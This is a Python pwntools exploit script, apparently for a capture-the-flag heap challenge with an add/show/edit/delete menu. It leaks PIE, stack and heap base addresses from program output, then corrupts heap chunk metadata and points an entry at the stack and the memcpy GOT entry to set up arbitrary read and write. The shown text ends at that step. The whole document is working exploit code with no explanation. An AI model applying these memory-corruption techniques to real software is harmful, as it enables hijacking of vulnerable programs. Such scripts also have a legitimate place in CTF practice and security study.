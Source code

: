```python
#b *$rebase(0x14F5)
def dbg():
    gdb.attach(p,'b *$rebase(0x3D845)')
    pause()

menu='Choice >'
def add():
    p.sendlineafter(menu,str(1))

def show(idx):
    p.sendlineafter(menu,str(2))
    p.sendlineafter('Index >',str(idx))

def edit(idx,cont):
    p.sendlineafter(menu,str(3))
    p.sendlineafter('Index >',str(idx))
    p.sendafter('Content >',cont)

def delete(idx):
    p.sendlineafter(menu,str(4))
    p.sendlineafter('Index >',str(idx))

add()
# dbg()
show(0)

p.recvuntil("Content: ")
print("----------------")
# data = p.recv(280 - 4)
data = p.recvline()
data_str = data.decode("utf-8")
data_list = ast.literal_eval(data_str)
print(data_list)

# 泄露pie
bytes_data = data_list[40:48]
byte_array = bytes(bytes_data)
pie = struct.unpack("<Q", byte_array)[0] - 0x0635B0
print(hex(pie))

# 泄露stack
bytes_data = data_list[32:40]
byte_array = bytes(bytes_data)
stack = struct.unpack("<Q", byte_array)[0]
print(hex(stack))

# heapbase
bytes_data = data_list[8:16]
byte_array = bytes(bytes_data)
heapbase = number = struct.unpack("<Q", byte_array)[0] - 0x002ab0
print(hex(heapbase))

dbg()
edit(0,b"a"*0x20+p64(heapbase+0xaa0+0x30)+p64(0x1fe1)) 

for i in range(0x4):
    add()

memcpy_got=pie+0x61DF8
edit(0,b"\x00"*0x30+p64(stack-0x50)+p64(memcpy_got))   
# dbg()
show(1)

```